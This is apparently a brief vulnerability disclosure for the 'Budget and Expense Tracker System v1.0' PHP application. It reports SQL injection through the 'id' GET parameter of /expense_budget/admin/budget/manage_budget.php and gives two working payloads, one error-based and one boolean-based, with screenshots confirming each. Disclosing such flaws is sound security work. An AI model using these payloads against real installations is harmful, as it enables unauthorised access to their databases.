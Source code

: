 # Budget and Expense Tracker System v1.0 has SQL injection

BUG_Author：wucwu1

Website source address: https://www.sourcecodester.com/php/14893/budget-and-expense-tracker-system-php-free-source-code.html

Vulnerability File: /expense_budget/admin/budget/manage_budget.php

GET parameter 'id' exists SQL injection vulnerability

Payload1: id=1' and (select 2 from(select count(*),concat(0x55565758,(select (elt(888=888,1))),0x65666768,floor(rand(0)*2))x from information_schema.plugins group by x)a) and 'a'='a

Error-based SQL injection succeeds.

![image](https://github.com/wucwu1/CVEApplication/blob/main/sql1.png)

Payload2: id=1' and 777=777 and 'GSD'='GSD

The Boolean value is judged correctly, so the page is displayed normally.

![image](https://github.com/wucwu1/CVEApplication/blob/main/sql2.png)
